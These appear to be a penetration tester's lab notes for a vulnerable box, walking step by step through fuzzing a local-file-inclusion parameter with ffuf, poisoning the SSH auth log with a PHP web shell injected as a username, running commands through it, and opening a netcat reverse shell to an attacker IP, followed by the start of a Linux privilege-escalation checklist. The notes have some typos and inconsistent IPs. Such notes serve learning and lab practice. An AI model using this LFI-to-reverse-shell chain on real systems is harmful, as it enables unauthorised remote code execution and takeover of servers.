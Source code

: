 ```
IF NO LFI
```
To send packets to the authenticated /logViewPage.php first need to grab the PHPSESSIONID
Inspect Page and storage tab -> PHPSESSION ID: 3igpv4q3neckiknb40ou3hrt8o

Use ffuf to fuzz the page using these lists -> /usr/share/seclists/Fuzzing/LFI

ffuf -b 'PHPSESSID=3igpv4q3neckiknb40ou3hrt8o' -c -w /seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://192.168.1.136/sea.php\?file\=../../../../FUZZ -fw 56

the ../../../../ can be run with different deepness for different files up to 10

Type into URL
http://192.168.56.113/sea.php?file=../../../../var/log/auth

Look for logs with SSH logins or another other logins that are being logged
ssh hello@@192.168.1.136 to check if it logs the ssh login on the above prev URL

Replace the username (hello) with a php system command or an nc check and when we load the log file through our sea.php if the system() function for php is available it will process the php code that loaded from logs
ssh '<?php system($_GET['cmd']); ?>'@192.168.1.136
/sea.php?file=../../../../var/log/auth&cmd=ls

ssh 'which+nc' @192.168.1.136
/sea.php?file=../../../../var/log/auth&cmd=ls

On URL : /sea.php?file=../../../../var/log/auth&cmd=ls
If the remote code worked then you can inject a reverse shell

/usr/bin/nc 192.168.1.106 4848 -e /bin/sh
USE AS
/sea.php?file=../../../../var/log/auth&cmd=/usr/bin/nc+192.168.1.106+4848+-e+/bin/sh

connect with listener on kali
```


### if stuck on Server port 80 default page try inspect source code




## Escalate Privileges
## LINUX

### -- Begin checking logged in user capabilities --
```
uname -a 
hostname 
lscpu 
ls /home 
ls /var/www/html 
ls /var/www/
```
----------------------------------------------------------------------------------------------------------------
### SUDO -L (Permissions)
EXAMPLE OUTPUT:
```
find / -perm -u=s -type f 2>/dev/null
```
```
#(root) NOPASSWD: /usr/bin/find
#(root) NOPASSWD: /usr/bin/nmap
#(root) NOPASSWD: /usr/bin/env
#(root) NOPASSWD: /usr/bin/vim
#(root) NOPASSWD: /usr/bin/awk
#(root) NOPASSWD: /usr/bin/perl